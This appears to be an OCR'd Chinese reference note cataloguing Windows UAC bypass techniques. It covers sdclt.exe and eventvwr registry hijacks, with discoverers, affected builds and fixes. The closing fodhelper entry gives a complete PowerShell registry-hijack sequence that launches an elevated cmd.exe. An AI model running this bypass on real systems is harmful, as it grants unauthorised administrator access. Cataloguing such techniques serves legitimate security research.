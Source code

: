 发现者：enigma0x3，时间：20160815。https://enigma0x3.net/2016/08/15/fileless-uac-bypass-using-eventvwr-exe-and-registry-hijacking/ 

sdclt.exe /KickOffElev 

**HKCR\mscfile\shell\open\command** 

EventVwr.exe redesigned, CompMgmtLauncher.exe autoelevation removed

https://github.com/turbo/zero2hero

- Works from: Windows 7 (7600)
- Fixed in: Windows 10 RS2 (15031)
  - How: EventVwr.exe redesigned, CompMgmtLauncher.exe autoelevation removed



## #29 sdclt.exe AppPathMethod - fixed

发现者：enigma0x3，时间：20170314。链接：https://enigma0x3.net/2017/03/14/bypassing-uac-using-app-paths/ 

sdclt.exe（打开跳到控制面板的backup）通过查看低权限的注册表**HKCU:\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe** 启动控制面板。

- Works from: Windows 10 TH1 (10240)
- Fixed in: Windows 10 RS3 (16215)
  - How: Shell API update



## #31 sdclt.exe IsolatedCommandMethod - fixed

发现者：enigma0x3，时间：20170317。https://enigma0x3.net/2017/03/17/fileless-uac-bypass-using-sdclt-exe/

sdclt.exe /KickOffElev

- Works from: Windows 10 TH1 (10240)
- Fixed in: Windows 10 RS4 (17025)
  - How: Shell API / Windows components update



## #33（#62） 注册表劫持

有点像infamous Enigma0x3 "***mscfile fileless***" bypass，但利用的是不同的注册表和不同的程序。widely used ITW by malware。

https://cqureacademy.com/cqure-labs/cqlabs-how-uac-bypass-methods-really-work-by-adrian-denkiewicz

fodhelper.exe computerdefaults.exe 加载注册表中的 exe

```
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value cmd.exe -Force
Start-Process "C:\Windows\System32\fodhelper.exe"
Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
```
